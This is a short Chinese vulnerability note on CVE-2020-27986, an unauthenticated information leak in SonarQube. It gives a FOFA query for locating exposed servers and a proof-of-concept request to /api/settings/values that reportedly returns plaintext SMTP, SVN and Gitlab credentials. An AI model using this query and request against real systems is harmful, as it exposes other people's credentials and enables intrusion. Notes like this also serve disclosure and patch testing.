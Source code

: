 # SonarQube api 信息泄露漏洞 CVE-2020-27986

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以获取部分敏感信息

## 漏洞影响

> [!NOTE]
>
> SonarQube

## FOFA

> [!NOTE]
>
> app="sonarQube-代码管理"

## 漏洞复现

主页如下

![image-20210627221618861](http://wikioss.peiqi.tech/vuln/image-20210627221618861.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

漏洞POC

```
http://xxx.xxx.xxx.xxx/api/settings/values
```

![image-20210627221628431](http://wikioss.peiqi.tech/vuln/image-20210627221628431.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

可泄露的为：明文SMTP、SVN和Gitlab等敏感信息

![image-20210627221640310](http://wikioss.peiqi.tech/vuln/image-20210627221640310.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> SonarQube api Information leakage

![image-20210627221650998](http://wikioss.peiqi.tech/vuln/image-20210627221650998.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

